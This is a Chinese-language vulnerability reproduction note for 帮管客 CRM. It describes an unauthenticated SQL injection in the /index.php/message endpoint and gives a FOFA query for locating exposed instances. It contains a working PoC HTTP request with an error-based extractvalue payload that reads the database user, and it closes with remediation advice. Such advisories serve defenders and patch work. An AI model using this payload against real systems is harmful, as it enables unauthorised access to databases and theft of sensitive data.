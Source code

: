 
# 帮管客 CRM SQL 注入漏洞复现

### 0x01 产品简介

  帮管客 CRM 是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM 客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。 

### 0x02 漏洞概述

 帮管客 CRM 客户管理系统/index.php/message 接口存在 sql 注入漏洞，未经身份认证的攻击者可通过此漏洞获取数据库敏感信息。

### 0x03 复现环境

FOFA：app="帮管客-CRM"

![](assets/1701071224-224ddc4f5ba3129f8b26ab3a3d8d9101.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /index.php/message?page=1&pai=1%20and%20extractvalue(0x7e,concat(0x7e,(select+user%28%29),0x7e))%23&xu=desc HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

查询当前用户

### ![](assets/1701071224-27fdfa86e7abe1264ab334e250935987.png)0x05 修复建议

官方已发布安全版本，请用户联系厂商修复漏洞：https://www.bgk100.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

###
